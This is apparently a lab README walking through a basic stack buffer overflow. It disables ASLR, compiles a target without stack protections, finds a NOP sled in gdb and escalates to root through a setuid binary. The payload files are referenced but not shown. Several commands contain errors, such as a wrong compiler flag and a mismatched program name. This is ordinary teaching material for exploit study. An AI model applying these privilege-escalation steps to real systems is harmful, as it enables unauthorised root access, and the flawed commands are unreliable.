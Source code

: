 ## Basic buffer overflow example.

The buffer is overflown enough to overwrite the value of the
return address which is what eip will be assigned to call.  

This is possible since the strcpy to the buffer occurs without
a size check.

Overwriting the return address allows us to assign eip a NOP in
the said buffer which will lead to shell code execution.

Performing this exploit with a non user but u+s (setuid) will
allow us elevate to root.

1. Test ALSR is disabled:
   * See ../common/README.md on esp.c
2. If not, disable ALSR and re-test:
   * echo 0 > /proc/sys/kernel/randomize_va_space
3. Compile test vulnerable program: 
   * gcc -g -z execstack -fno-stack-protection -o bo1 bo1.c
4. Test with no overflow: 
   * ./bo1 A
5. Test with overflow: 
   * ./bo1 $(cat e1)
   * This should segfault
6. Test we can overwrite return address value using gdb: 
   * cat e2
   * gdb ./bo1
   * break 10
   * r $(cat e2)
   * info registers
   * x/40x $esp 
   * The bottom of stack ($ebp) should contain 4321 
(we can overwrite $eip !!!)
7. Run exploit and select NOP address to replace in exploit file 
using gdb:
   * cat e3 (take note of the NOP sled)
   * gdb ./bo1
   * break 10
   * r $(cat e3)
   * info registers
   * x/40x $esp
   * Select an address in the middle x90 (NOP)
8. Update exploit b3 python script with chosen address (variable 
eip should be your chosen NOP)
9. Run exploit and get shell from gdb (no root since we run gdb as non 
root user):
    * gdb ./bo1
    * r $(cat e4) 
10. Setuid and run without debugger:
    * sudo chown root bo1
    * sudo chmod u+s bo1
    * gdb ./bo1 $(cat e4)
    * id (should be root) 
11. If exploit failed, it's because environment variables are on the 
stack and offset is wrong (different) from when we ran gdb.  Play with 
address in e4 with hexedit adding or removing 50 or 20 at a time until 
it works. A more resiliant method is to run gdb and non gdb exploits with 
an empty envionment like so:
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 gdb ./bo1 
(remember unset env COLUMNS and unset env LINES)
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 ./vuln $(cat e4)
